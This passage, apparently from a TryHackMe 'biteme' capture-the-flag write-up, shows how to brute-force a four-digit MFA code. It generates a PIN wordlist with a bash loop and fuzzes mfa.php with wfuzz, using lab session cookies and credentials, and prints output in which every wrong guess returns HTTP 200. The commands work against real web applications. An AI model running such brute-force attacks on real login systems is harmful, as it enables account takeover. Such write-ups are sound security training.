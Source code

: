 The **php** file syntax highlighting trick unfortunately didn't work for the `mfa.php` file. Thus we should probably bruteforce this part! The code is only 4 digits. First we need a wordlist containing all possible 4 digit combinations. A quick **bash** script accomplishes this:

```zsh 
# for loop for all 4 digit combinations, direct to txt file

┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ for i in {0000..9999}; do echo "$i"; done > pins.txt

# confirm file line length (should be 10000)     

┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ wc -l pins.txt 
10000 pins.txt
``` 

Now, we can use **wfuzz** to bruteforce all 10000 **PINs**. Since the web application returns an **HTTP** code of `200`, even if the code is incorrect, we need a baseline regarding when the code is wrong:

```zsh 
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ wfuzz -c -z file,pins.txt -u http://10.10.21.12/console/mfa.php -d "code=FUZZ" -H "Cookie: PHPSESSID=ng75estd5tfgpn0k8je4sqi77m; user=jason_test_account; pwd=BABYFACE" 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.21.12/console/mfa.php
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                      
=====================================================================

000000001:   200        23 L     95 W       1523 Ch     "0000"                                                                                       
000000006:   200        23 L     95 W       1523 Ch     "0005"                                                                                       
000000003:   200        23 L     95 W       1523 Ch     "0002"                                                                                       
000000010:   200        23 L     95 W       1523 Ch     "0009"                                                                                       
000000009:   200        23 L     95 W       1523 Ch     "0008"                                                                                       
000000007:   200        23 L     95 W       1523 Ch     "0006"                                                                                       
000000008:   200        23 L     95 W       1523 Ch     "0007"                                                                                       
000000011:   200        23 L     95 W       1523 Ch     "0010"                                                                                       
<snipped for space>
``` 
